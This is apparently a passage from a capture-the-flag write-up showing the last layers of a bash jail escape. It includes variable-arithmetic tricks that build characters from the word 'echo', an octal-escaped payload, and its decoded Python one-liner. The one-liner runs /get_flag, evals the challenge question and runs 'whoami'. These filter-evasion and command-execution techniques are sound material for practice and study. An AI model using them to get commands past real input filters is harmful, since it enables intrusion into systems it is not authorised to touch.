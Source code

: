 ### Fourth Bahs (LAYER 3)
```bash
echoechoechoechoechoechoechoecho=$((echo)); echoechoechoechoechoechoechoechoecho=$((++echo)); echoechoechoechoechoechoechoechoechoecho=$((++echo)); echoechoechoechoechoechoechoechoechoechoecho=$((++echo)); echoechoechoechoechoechoechoechoechoechoechoecho=$((++echo));
```
### FINALLY (LAYER 4)
```bash
echo $'\57\165\163\162\57\142\151\156\57\160\171\164\150\157\156\63\40\55\143\40\47\146\162\157\155\40\163\165\142\160\162\157\143\145\163\163\40\151\155\160\157\162\164\40\120\157\160\145\156\54\40\120\111\120\105\73\164\145\163\164\40\75\40\120\157\160\145\156\50\133\42\57\147\145\164\137\146\154\141\147\42\135\54\40\163\164\144\151\156\75\120\111\120\105\54\40\163\164\144\157\165\164\75\120\111\120\105\54\40\142\165\146\163\151\172\145\75\61\54\40\165\156\151\166\145\162\163\141\154\137\156\145\167\154\151\156\145\163\75\124\162\165\145\51\73\160\162\151\156\164\50\164\145\163\164\56\163\164\144\157\165\164\56\162\145\141\144\154\151\156\145\50\51\51\73\161\40\75\40\164\145\163\164\56\163\164\144\157\165\164\56\162\145\141\144\154\151\156\145\50\51\73\160\162\151\156\164\50\42\121\165\145\163\164\151\157\156\72\42\54\40\161\51\73\141\40\75\40\145\166\141\154\50\161\51\73\160\162\151\156\164\50\141\51\73\164\145\163\164\56\163\164\144\151\156\56\167\162\151\164\145\50\163\164\162\50\141\51\53\42\134\156\42\51\73\160\162\151\156\164\50\164\145\163\164\56\163\164\144\157\165\164\56\162\145\141\144\154\151\156\145\50\51\51\73\160\162\151\156\164\50\164\145\163\164\56\160\157\154\154\50\51\51\73\160\162\151\156\164\50\164\145\163\164\56\143\157\155\155\165\156\151\143\141\164\145\50\42\167\150\157\141\155\151\42\51\51\73\160\162\151\156\164\50\42\120\171\164\150\157\156\40\145\156\144\42\51\73\47\73\40\167\150\157\141\155\151'
```
### FINALLY 
```bash
/usr/bin/python3 -c 'from subprocess import Popen, PIPE;test = Popen(["/get_flag"], stdin=PIPE, stdout=PIPE, bufsize=1, universal_newlines=True);print(test.stdout.readline());q = test.stdout.readline();print("Question:", q);a = eval(q);print(a);test.stdin.write(str(a)+"\n");print(test.stdout.readline());print(test.poll());print(test.communicate("fun"));print("Python end");';
```
